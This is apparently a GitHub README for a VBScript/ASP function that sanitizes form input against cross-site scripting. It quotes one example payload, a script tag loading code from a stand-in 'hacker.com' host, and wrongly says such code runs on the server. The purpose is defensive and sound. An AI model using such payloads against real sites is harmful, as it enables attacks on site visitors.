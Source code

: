 # XSS-Sanitizer
VBScript Sanitizer Function to Protect Against XSS Attacks

When sending forms between your web pages, you leave your site vulnerable to Cross Site Scripting (XSS) hacking attempts where someone could try inputting harmful code into your form fields. To protect your forms, all Request() functions must be trimmed and stripped of potentially harmful code.

Say you have the following HTML input as part of a form:
```html
<input type="text" name="Comments" maxlength="50" value="<% = strComments %>">
```

Someone could pass harmful code such as `<script src="hacker.com/hack.js"></script>` and this would execute anything in hack.js on your server. Even if this code didn't fit within the "maxlength" of 50, that form input can be fudged. The best way to protect yourself is to sanitize all requests on a webpage.

Include the file in your webpage.
```html
<!-- #include file="sanitizer-function.asp" -->
```

Run with the format sanitize(str, cut) where str is the desired field to protect and cut is the length to trim it to. For example:
```vbscript
<% strComments = sanitize(Request("Comments"), 50) %>
```

